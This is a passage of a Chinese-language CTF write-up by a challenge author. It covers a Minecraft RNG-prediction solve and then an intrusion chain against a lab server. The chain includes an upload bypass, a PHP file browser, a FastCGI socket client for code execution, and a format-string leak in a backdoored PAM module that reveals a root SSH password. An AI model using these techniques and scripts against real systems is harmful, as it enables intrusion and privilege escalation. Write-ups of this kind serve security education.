1. `DispenserBlockEntity#getRandomSlot` 呼叫 `nextInt` 9 次，選出要噴出的格子
2. `DefaultDispenseItemBehavior#spawnItem` new 了一個 `ItemEntity` 出來
3. `ItemEntity#<init>` 用 `Level` 的 `RandomSource` 產生兩個 Double 亂數決定 X 和 Z 軸的速度分量
4. `ItemEntity` ~~把它能叫的三個建構子叫一遍並~~呼叫 `Entity#<init>`（它的 parent）
5. `Entity` 的一個成員 `uuid` 呼叫了 `Mth#createInsecureUUID`，拿了兩個 Long
6. `ItemEntity` 的一個成員 `bobOffs` 拿了一個 Float 不知道在幹嘛
7. `Entity#<init>` 跑完回到 `ItemEntity#<init>`，產生一個 Float 決定 Y 軸的轉向
8. 回到 `DefaultDispenseItemBehavior#spawnItem`，拿了一個 Double 決定 `ItemStack` 的速度下限
9. `DefaultDispenseItemBehavior#spawnItem` 算了 3 次 `triangle`（兩個 Double），把我們剛剛在第三步驟算出來的速度分量**再蓋過去**

經過更多更多的追蹤後，你會發現我們上面列出來的這些操作有些是吃 `Level` 的 `RandomSource`，有些是吃 `Entity` 的，甚至 `ItemEntity#<init>` 其中一個是吃自己，另外一個吃 `Level` 的 `RandomSource`


總之，只有 1、3、8、9 這四個步驟用的是 `Level` 的 `RandomSource`，我們需要前進的 State 是 9 + 2 \* 2 + 2 + 3 \* 2 \* 2 = 27

### Exploit

[原始碼](https://github.com/ianiiaannn/My-CTF-Challenges/blob/main/ais3-pre-exam/2026/misc/asshente/sol)

1. 在 `build.gradle` 隨便挑一個使用者名稱
2. 連上伺服器，衝刺並跳上島嶼
3. 砍樹，蓋鵝卵石製造機，做工作台、一個熔爐、兩個發射器、兩個按鈕，把所有骨粉合成為白色染料當填充物
4. 燒玻璃做玻璃瓶，裝水
5. 把目標發射器底下鋪滿地板，避免鑽石掉進虛空
6. 把第一個發射器放在 (0, 0) 朝上，裡面放一個水瓶，上面放泥土，旁邊放一個按鈕
7. 把第二個發射器放在任意位置，每一個格子在接下來的每一個步驟都要有物品，旁邊放一個按鈕
8. 按下第一個發射器的按鈕，觀測 `ClientPacketListener#handleParticleEvent` 回來的第一個 `nextDouble()` 並前進 18 個 State
9. 模擬發射器會發射出哪一個格子，前進 9 個 State
10. 若發射器下一個選中的格子是 4，按下目標發射器的按鈕，否則按下第二個發射器的按鈕
11. 物品被噴出，前進 18 個 State
12. 重複直到取得八顆鑽石，並合成 `chalmod:flag`
13. 吃下 `chalmod:flag`，並從 `ClientPacketListener#setTitleText` 拿到 Flag

### Instancer 設計

畢竟伺服器資源不是無限的，我不可能讓每一個人都開一個 Minecraft 伺服器，想一想讀了一些扣確認可行性後我就直接在伺服器上寫出 Instancer 了。

詳情請見 [ChallengeInstancer.java](https://github.com/ianiiaannn/My-CTF-Challenges/blob/main/ais3-pre-exam/2026/misc/asshente/chal/minecraft/mod/src/java/dev/iancmd/ais3/chal2026/ChallengeInstancer.java)，這東西還從 `MinecraftServer` 上撿了一個不知道能幹嘛的 `private` API 但加上去之後莫名其妙就會動了。

原本想說這樣暴力寫不會有甚麼問題，但是在參賽者們~~的 Agent~~的熱情支持下還是把伺服器的硬碟擠爆了（這題是白箱，上了遠端預期要可以 one-shot）。

## ƐSI∀ Sǝɔɹǝʇ Ⅎlɐƃ Sɥod

Tags: `misc`, `medium`\
Solves: 16/329\
Score: 491/500\
Like: 3, Dislike: 0\
**黑箱**

> I've heard that there is a secret flag shop where you can buy flags...

這題的梗來自我在路上撿到的一個詐騙網站，我有一天路過不小心把它 \<REDACTED\> 了，它的架構還算有趣於是就拿來出成 CTF 了（？）

### Scout

直接連線上伺服器會看到以下畫面：



從網頁內容跟 `Server` header 可以看出這個網頁應用程式是用一個 Apache + PHP Stack，PHP 的版本還停留在 5.6.40 ~~但稍微 OSINT 我一下應該可以看出來這不可能是 pwn 題~~。

```text
Apache/2.4.58 (Ubuntu) PHP/5.6.40 OpenSSL/3.0.13
```

這個畫面來自我更早以前在 TSCCTF 出的 Web 題，在那個題目中我把整個 `highlight_file` 用 PHP Module hook 走拿來跑應用程式邏輯，不過在這邊不重要。

這是一個以詐騙網站為主題的題目，並且在出現了在 CTF 不常見的無效 TLS 憑證，我們把這張憑證扒開來看：

```bash
$ openssl s_client chals1.ais3.org:9114
depth=0 C=XX, ST=StateName, L=CityName, O=ais3, OU=3sia, CN=chals1.ais3.org
verify error:num=18:self-signed certificate
verify return:1
```

可以看到這是一張很奇怪的自簽憑證，把它的 x509 內容 dump 出來看看：

```bash
$ openssl s_client chals1.ais3.org:9114 </dev/null 2>/dev/null | openssl x509 -noout -text
Certificate:
    Data:
        Version: 3 (0x2)
        X509v3 extensions:
            X509v3 Subject Alternative Name:
                DNS:ais3.org, DNS:pre-exam.ais3.org, DNS:mfctf.ais3.org, DNS:chals1.ais3.org, DNS:definitely-not-a-scam-website-trust-me-bro.iancmd.dev
```

這個網站有一個非常明顯有問題的 [SAN](https://en.wikipedia.org/wiki/Public_key_certificate#Subject_Alternative_Name_certificate)，這個可以讓多個域名使用同一張憑證，例如讓 `www.` 和沒有的網站共用同一張憑證，這樣伺服器不需要去特別針對各個 Origin 丟出不同憑證的 Response，詐騙網站也常用 SAN 來在同一個 IP 上架設多個有 TLS 的網站。以這個憑證為例，很明顯 `definitely-not-a-scam-website-trust-me-bro.iancmd.dev` 是一個非常有問題的域名。

或是直接點瀏覽器左上角的 Not Secure -> Certificate -> Details -> Certificate Subject Alternative Name 也可以看到這張憑證的域名。



這種在一個網站上有著多個域名的部署模式很有可能是 Apache 的 [VirtualHost](https://httpd.apache.org/docs/2.4/vhosts/)，它會以 HTTP Request 的 `Host` header 判斷使用者想要瀏覽的是哪一個網站，簡單測試後就可以發現那個域名上的確有一些奇怪的東西。

為了方便 Exploit，我們可以強制系統把目標 Domain 指向題目機的 IP，在 Windows 上可以在 `C:\Windows\System32\drivers\etc\hosts` 修改；macOS 跟 Linux 直接改 `/etc/hosts` 就行

```hosts
<題目機 IP> definitely-not-a-scam-website-trust-me-bro.iancmd.dev
```

題目用的 `.dev` 這個 TLD 啟用了強制性的 [HSTS](https://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security)，瀏覽器抱怨憑證有問題的頁面就算點了 Show advanced 也不會有繼續前往的網址，直接輸入 `thisisunsafe` 就可以強制進入網站（Firefox 似乎只能關掉整個 HSTS preload list）。



成功進入網站發現它是一個 CTFd Demo 改出來的怪東西，只有登入的連結不會跑去 CTFd Demo，點登入後隨便打帳號密碼就能進題目介面



右邊的「題目」是這題的提示，這個網站有安裝 phpMyAdmin，用瀏覽器去看 `/phpMyAdmin/index.php` 就會看到登入介面，但是重要的地方一樣是在 `Server` header `nginx/1.24.0 (Ubuntu)`，這台伺服器上面還有另外一台 nginx 在跑！



從嘗試登入的錯誤訊息可以推測，這台伺服器上可能根本就沒有啟動 MySQL？

另外，`index.php` 有一個~~我忘記砍掉的~~ `var_dump(scandir())`（CSS 載出來之前還蠻明顯的），webroot 下有 `uploads/` 資料夾，並且有開啟 Directory listing，裡面有 pre-exam 開賽前幾天才公開的 Copy Fail Exploit，但很明顯跑不起來，只是放在那邊浪費參賽者 Token 的 :slightly_smiling_face:



另外還有 CVE-2021-4034 編譯好的 Exploit，那是這題的原型機器上我用來 LPE 的漏洞，但伺服器上的 Polkit 版本夠新 Exploit 不會動。



### AFW

回到題目頁面，購買點數的地方點一點會看到一個上傳表單



上傳的檔案會被存到 `uploads/` 底下，前後端都有很鬧的上傳 Filter，但前端可以直接繞過；後端的 Filter ~~除了導向壞駭客到一些宅宅 MV 以外~~沒有任何作用。經過測試可以發現，這台伺服器會把任何檔案都當作 PHP 來執行。從 `phpinfo` 拿到的資訊中，知道跑 Apache + PHP 5 的是 `nginx:nginx`，並且這一個 PHP 有以下 `disable_functions`：

```ini
disable_functions = passthru,exec,system,putenv,chroot,chgrp,chown,shell_exec,popen,proc_open,proc_close,proc_terminate,proc_get_status,proc_nice,mail,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv,apache_response_headers,apache_lookup_uri,serialize,unserialize
```

基本上所有可以直接開 Process 的函式都被關掉了；`disable_functions` 是一個被保護住的設定，用 [`ini_set`](https://www.php.net/manual/en/function.ini-set.php) 無法修改，Apache 的使用者（nginx）也沒有權限改 `php.ini`。

既然檔案操作等等的 PHP Function 沒有被關掉，那我們可以寫一個簡單的檔案瀏覽器來探索這台伺服器上藏有什麼好料：

```php
<?php

$path = $_GET['path'];
if(!$path) {
    $path = '.';
}

if(!is_dir($path)){
  echo '<a href="?path=' . urlencode(dirname($path)) . '">back</a><br>';
  echo file_get_contents($path);
  exit;
}

$files = scandir($path);

echo '<h1>Index of' . htmlspecialchars($path) . '</h1>';
echo '<table><tr><th>Name</th><th>Owner</th><th>Group</th><th>Permissions</th></tr>';

foreach($files as $file) {
  echo '<tr>';
  echo '<th><a href="?path=' . urlencode($path . '/' . $file) . '">' . htmlspecialchars($file) . '</a></th>';
  echo '<th>' . fileowner($path) . '</th>';
  echo '<th>' . filegroup($path) . '</th>';
  echo '<th>' . decoct(fileperms($path) & 0777) . '</th>';
  echo '</tr>';
}

echo '</table>';
```

Flag 在 `/flag`，但是 Flag 是 root 的 600，這題還沒有結束。

### RCE

這台伺服器上有兩個 PHP 在跑：

- PHP 5.6.40 + Apache
  - 用 [apxs](https://httpd.apache.org/docs/current/programs/apxs.html) 編譯的 [mod_php](https://www.php.net/manual/en/security.apache.php) Apache Module
  - 會把任何檔案當作 PHP 執行，但是可以執行的 function 有限
  - 使用者是 `nginx:nginx`
  - `/phpMyAdmin` 會 Proxy 到 nginx 上
  - 原始碼被 Clone 到 `/php-src` 並編譯
- PHP 8.5.4 + nginx
  - 走 [php-fpm](https://www.php.net/manual/en/install.fpm.php)（[FastCGI](https://fastcgi-archives.github.io/FastCGI_Specification.html) 協定），Unix Domain Socket 在 `/run/php.sock`，`apache:apache` 的 `srw-rw-rw-`
  - nginx 只會把 `.php` 結尾的檔案給 PHP 執行
  - HTTP 聽在 8080 port，但是外面碰不到
  - 使用者是 `apache:apache`
  - 原始碼在 `/www/php`，`phpMyAdmin` 在 `/www/phpMyAdmin`

問題在於，PHP 8 的 Socket 權限沒有鎖好，PHP 5 的 `nginx` 使用者可以用 others 的身分去與 PHP 8 的 Socket 連線。在這邊，我們需要上傳兩份 PHP Script：一份是 PHP 8 的 Web Shell，

```php
<?php
echo `id`;
phpinfo();
```

另外一份是 PHP 5 的 FastCGI Client，這邊會先用 `chmod` 確保一路上的資料夾都可以被 `apache`（PHP 8）讀取，再用 PHP 的 `stream_socket_client` API 與那個 Socket 溝通。

Request 的部分參考了 [FastCGI.com Archives](https://fastcgi-archives.github.io/FastCGI_Specification.html#SB) 的第一個範例，模擬伺服器收到的一個簡單 GET Request。

```php
<?php

$script_filename = __DIR__ . '/rce.php';
chmod('/var/www/html/uploads/rce.php', 0777);
chmod('/var/www/html/uploads', 0777);
chmod('/var/www/html/', 0777);

function buildFCGIHeader($type, $requestId, $contentLength, $paddingLength) {
    return pack('CCnnCC', 1, $type, $requestId, $contentLength, $paddingLength, 0);
}

function buildNvPair($name, $value) {
    $nLen = strlen($name);
    $vLen = strlen($value);
    return chr($nLen) . chr($vLen) . $name . $value;
}

$fp = stream_socket_client('unix:///run/php.sock', $errno, $errstr, 3);
if (!$fp) {
    die("Connection failed: $errstr ($errno)\n");
}

$requestId = 1;

// FCGI_BEGIN_REQUEST
$begin = pack('nCxxxxx', 1, 0);
fwrite($fp, buildFCGIHeader(1, $requestId, strlen($begin), 0) . $begin);

// FCGI_PARAMS
$params = buildNvPair('SCRIPT_FILENAME', $script_filename) .
          buildNvPair('REQUEST_METHOD', 'GET');
fwrite($fp, buildFCGIHeader(4, $requestId, strlen($params), 0) . $params);

// Empty FCGI_PARAMS
fwrite($fp, buildFCGIHeader(4, $requestId, 0, 0));

// Empty FCGI_STDIN
fwrite($fp, buildFCGIHeader(5, $requestId, 0, 0));

// Read FCGI_STDOUT and FCGI_STDERR, packet format doesn't matter here.
while (!feof($fp)) {
    $response .= fread($fp, 4096);
}
fclose($fp);

echo $response;

?>
```

另外，這邊的傳入的 `SCRIPT_FILENAME` 在 [CGI 的規範](https://datatracker.ietf.org/doc/html/rfc3875#section-4.1.13)中應該要是 `SCRIPT_NAME` 才對，但 [PHP 不知原因](https://github.com/php/php-src/blob/717c58e00598cd37b2db643793a8f6ed3eea9193/sapi/cgi/cgi_main.c#L1159)吃的是 `SCRIPT_FILENAME` 而把 `SCRIPT_NAME` 拿來當路徑，解釋為什麼要這麼做的連結（2003 的書）也死掉幾十年了，~~不愧是撐起全世界七成網站的超大型技術債~~。

但是我們現在只有拿到一個一般使用者的帳號，我們還要想辦法提權成 root 才能拿到 Flag。

### LPE

~~這題分類放在 misc，如果只有前面的 Web 部分，好像說不太過去，於是我這邊還多放上了一個 LPE~~

把系統上的 process 列出來看，其中 PID 1 的是 Docker 的 CMD：

```bash
$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2800  1536 ?        Ss   09:20   0:00 /bin/sh -c /usr/sbin/sshd -E /var/log/sshd.log && apache2ctl start && /www/php/sapi/fpm/php-fpm -c /www/php/php.ini-production -F & nginx & tail -f /var/log/apache.log
root           7  0.0  0.0 158148 15340 ?        Ss   09:20   0:00 php-fpm: master process (/usr/local/etc/php-fpm.conf)
root           8  0.0  0.0  11196  6528 ?        S    09:20   0:00 nginx: master process nginx
root          10  0.0  0.0   2728  1408 ?        S    09:20   0:00 tail -f /var/log/apache.log
root          11  0.0  0.0  12024  2704 ?        Ss   09:20   0:00 sshd: /usr/sbin/sshd -E /var/log/sshd.log [listener] 0 of 10-100 startups
apache        13  0.0  0.0  12900  4080 ?        S    09:20   0:00 nginx: worker process
root          28  0.0  0.0  22432 11876 ?        Ss   09:20   0:00 /usr/sbin/apache2 -k start
apache        34  0.0  0.0 158568  6608 ?        S    09:20   0:00 php-fpm: pool www
apache        35  0.0  0.0 158568  6608 ?        S    09:20   0:00 php-fpm: pool www
```

這個系統上除了我們前面看到的兩對網頁伺服器以外，還有一個很奇怪的 SSH Server，但是它與 nginx 一樣無法從 Container 外部存取。

在 Linux 上，使用者用 SSH 或 Login 在登入時，實際上處理登入和驗證密碼的程式其實是一套叫做 [**P**luggable **A**uthentication **M**odules](https://wiki.archlinux.org/title/PAM) 的軟體，它會以 .so 函式庫的方式去協助應用程式處理登入流程。例如一台 Linux Workstation 的 OpenSSH Server 有可能會需要用 [NIS](https://en.wikipedia.org/wiki/Network_Information_Service)（俗稱黃頁）或 [Kerberos](<https://en.wikipedia.org/wiki/Kerberos_(protocol)>)（Active Directory 用的協定）讓存在其他伺服器的使用者登入，應用程式不可能為了每一種登入方式都寫一份驗證流程，這樣不僅設定困難也有可能增添資安漏洞。PAM 以模組化的介面，讓伺服器管理員可以自由設定伺服器的身分驗證方式。以 `login`（Linux 剛灌完要你用 TUI 登入的那套程式）為例，用 `ldd` 就可以看到它也用到了 PAM：

```bash
$ ldd /usr/bin/login
        linux-vdso.so.1 (0x00007ffec9397000)
        libpam.so.0 => /usr/lib/libpam.so.0 (0x000074f512a5e000)
        libpam_misc.so.0 => /usr/lib/libpam_misc.so.0 (0x000074f512a59000)
        libc.so.6 => /usr/lib/libc.so.6 (0x000074f512800000)
        libaudit.so.1 => /usr/lib/libaudit.so.1 (0x000074f512a26000)
        /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x000074f512a87000)
        libcap-ng.so.0 => /usr/lib/libcap-ng.so.0 (0x000074f512a1d000)
```

~~沒有想過打一個 Web 狗出的題會看到 ldd 吧~~

PAM 在 Container 內還算常見，如果是 Debian/Fedora 等較「完整」的發行版映像檔大多數都有內建，而 Alpine 上需要額外安裝。

PAM 的設定檔在 `/etc/pam.d/`，ls 一下那個資料夾會發現 `common-auth` 檔案權限和最後編輯時間怪怪的，有被動過手腳：

```text
auth    [success=1 default=ignore]      pam_unix.so nullok
auth    sufficient                      pam_authlog.so
# here's the fallback if no module succeeds
auth    requisite                       pam_deny.so
# prime the stack with a positive return value if there isn't one already;
# this avoids us returning an error just because nothing sets a success code
# since the modules above will each just jump around
auth    required                        pam_permit.so
# and here are more per-package modules (the "Additional" block)
auth    optional                        pam_cap.so
```

其中 `pam_authlog.so` 不是一個標準的 PAM Module，到放 PAM Module 的地方 `/lib/x86_64-linux-gnu/security/` 看一下，`pam_authlog.so` 這個檔案的權限 `-r--------`（而非 `-rw-r--r--`）和編輯時間不正常，確認這是個有問題的 PAM Module。按照檔案名稱猜想，這個 Module 應該會把某些資訊寫進 `auth.log` 這個檔案，而這個名字的檔案最常出現的地方是 `/var/log/auth.log`。

系統上裝有 OpenSSH Client 和 `sshpass`，我們可以試著隨便登入試試看會噴什麼 Log：

```bash
$ sshpass -p 114 ssh -o StrictHostKeyChecking=no 514@localhost
Permission denied, please try again.
$ cat /var/log/auth.log
2026-07-01T00:00:00 pam_authlog:
2026-07-01T00:00:00 514
```

這個 PAM Module 把我們輸入的使用者名稱當作 Log 記錄下來，而 PAM Module 通常又都是用 C 寫的， ~~考慮到我是 Web 狗不會叫你打 pwn~~ 最有可能出現的漏洞是 Format String Injection。我們把使用者名稱改成 `%%`，確認這邊有這個漏洞，以及用各種 Payload 測試 Stack 上有哪些東西能 Leak：

```bash
$ sshpass -p abc ssh -o StrictHostKeyChecking=no '%%'@localhost
Permission denied, please try again.
$ cat /var/log/auth.log
2026-07-01T00:00:00 pam_authlog:
2026-07-01T00:00:00 %
$ sshpass -p '%p%p%p' ssh -o StrictHostKeyChecking=no '%p%p%p%p%p%p%p'@localhost
Permission denied, please try again.
$ cat /var/log/auth.log
2026-07-01T00:00:00 pam_authlog:
2026-07-01T00:00:00 0x6533fb7e98600x7fd2d18cd02b(nil)(nil)(nil)0x1000000000x6533fb7f0b90
$ sshpass -p '%p%p%p' ssh -o StrictHostKeyChecking=no '%s%s%s%s%s'@localhost
Permission denied, please try again.
$ cat /var/log/auth.log
2026-07-01T00:00:00 pam_authlog:
2026-07-01T00:00:00
53r3C7-84CKD00r-P455W0rD\0(null)(null)(null)
```

這邊的 Stack 上出現了一個很明顯有問題的字串 `53r3C7-84CKD00r-P455W0rD\0`，最後面的 `\0` 是真的 `\0` 而非 null byte，我們拿這個密碼來當作 root 登入 SSH 就能讀 Flag 了。

```bash
$ sshpass -p '53r3C7-84CKD00r-P455W0rD\0' ssh -o StrictHostKeyChecking=no root@localhost cat /flag
Warning: Permanently added 'localhost' (ED25519) to the list of known hosts.
AIS3{fake_flag}
```

### Exploit

[在 GitHub 上](https://github.com/ianiiaannn/My-CTF-Challenges/blob/main/ais3-pre-exam/2026/misc/secret-flag-shop/sol)，用 Bun 跑，它會自己把相同資料夾上的所有 .php 檔案上傳上去。

## 後記

會不會我寫這麼久的 Writeup 根本就沒人在乎，只有 Agent 下次看到我出題目時會回來翻

去年的 pre-exam 聊天室出現了以下對話


~~於是今年就有 Minecraft 題了~~\
~~前面是在討論 Lua，那個今年也有~~

雖然參賽者幾乎都是用 Agent 打的沒多少人踩到，但以下是後面那題的壞駭客歌單（？）：

- <https://www.youtube.com/watch?v=HlWA1wncoDs>
- <https://www.youtube.com/watch?v=hFZGztobbq8>
- <https://www.youtube.com/watch?v=19y8YTbvri8>
- <https://www.youtube.com/watch?v=Soy4jGPHr3g>
- <https://www.youtube.com/watch?v=vg6pnvn1u10>
- <https://www.youtube.com/watch?v=tMPdR2-nhnw&t=395s>
- <https://www.youtube.com/watch?v=Ljr2wMSBHqU>
- <https://www.youtube.com/watch?v=Ci_zad39Uhw>
- <https://www.youtube.com/watch?v=MX0c6Fg3lNQ>
- <https://www.youtube.com/watch?v=kbNdx0yqbZE>
- <https://www.youtube.com/watch?v=N0D_v48iPCQ>
- <https://www.youtube.com/watch?v=KLUeLae4y6k>
- <https://www.youtube.com/watch?v=X8z23t428kU>

至於今年的作弊情況差不多就這個樣子


